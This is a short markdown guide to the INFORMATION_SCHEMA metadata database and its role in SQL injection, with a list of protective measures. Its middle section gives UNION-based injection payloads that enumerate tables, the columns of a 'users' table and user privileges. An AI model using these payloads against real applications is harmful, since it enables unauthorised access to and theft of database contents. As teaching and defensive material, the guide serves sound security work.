 # INFORMATION_SCHEMA Guide for SQL Injection

## What is INFORMATION_SCHEMA?

INFORMATION_SCHEMA is a virtual database present in many SQL database management systems that provides access to the database metadata. It contains information about all database objects including:

- Tables
- Columns
- Views
- Routines (stored procedures and functions)
- Constraints
- User privileges
- Database settings

This virtual database acts as a read-only, system catalog that allows users to query structural information about the database itself.

## Purpose and Usage

INFORMATION_SCHEMA serves several legitimate purposes:

- Database administrators use it to inspect database structure
- Application developers use it for schema introspection
- Development tools use it to provide autocomplete and schema browsing
- Database migration scripts use it to verify schema changes

## Example Basic Queries

```sql
-- List all tables in a specific database
SELECT TABLE_NAME 
FROM INFORMATION_SCHEMA.TABLES 
WHERE TABLE_SCHEMA = 'database_name';

-- Get column information for a specific table
SELECT COLUMN_NAME, DATA_TYPE 
FROM INFORMATION_SCHEMA.COLUMNS 
WHERE TABLE_NAME = 'table_name';

-- View user privileges
SELECT * FROM INFORMATION_SCHEMA.USER_PRIVILEGES;
```

## Role in SQL Injection Attacks

During SQL injection attacks, INFORMATION_SCHEMA provides attackers with critical information about the database structure, which can be used to:

1. **Discover database tables**: Attackers can enumerate all tables in the database
2. **Identify sensitive tables**: Tables with names like "users", "accounts", or "admin" may contain valuable data
3. **Map table structures**: Understanding column names and data types enables more precise attacks
4. **Discover user privileges**: Identifying database users with elevated privileges

## Common SQL Injection Payloads Using INFORMATION_SCHEMA

### Discovering Tables

If an application runs a query like:
```sql
SELECT * FROM users WHERE username = '$input'
```

An attacker could inject:
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=DATABASE() -- 
```

This would return all table names in the current database.

### Learning Column Names

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
```

This payload reveals all column names in the "users" table, which may include sensitive fields like "password", "credit_card", etc.

### Viewing User Privileges

```sql
' UNION SELECT * FROM information_schema.user_privileges --
```

This can expose which database users have administrative privileges, potentially leading to privilege escalation attacks.

## Protection Measures

To protect against SQL injection attacks that exploit INFORMATION_SCHEMA:

1. **Use Parameterized Queries**: Prevent injection by properly separating code from data
2. **Restrict User Privileges**: Database users should operate with least privilege principles
3. **Implement WAF (Web Application Firewall)**: Filter malicious SQL injection attempts
4. **Regular Security Testing**: Conduct SQL injection vulnerability assessments
5. **Input Validation**: Validate and sanitize all user inputs
6. **Error Handling**: Avoid exposing database error messages to users

## Database-Specific Notes

- **MySQL/MariaDB**: Full INFORMATION_SCHEMA implementation
- **PostgreSQL**: Similar functionality through "information_schema" schema and pg_catalog
- **Microsoft SQL Server**: Supports INFORMATION_SCHEMA views plus system tables
- **Oracle**: Uses ALL_TABLES, ALL_TAB_COLUMNS instead of INFORMATION_SCHEMA
- **SQLite**: Uses sqlite_master table instead of INFORMATION_SCHEMA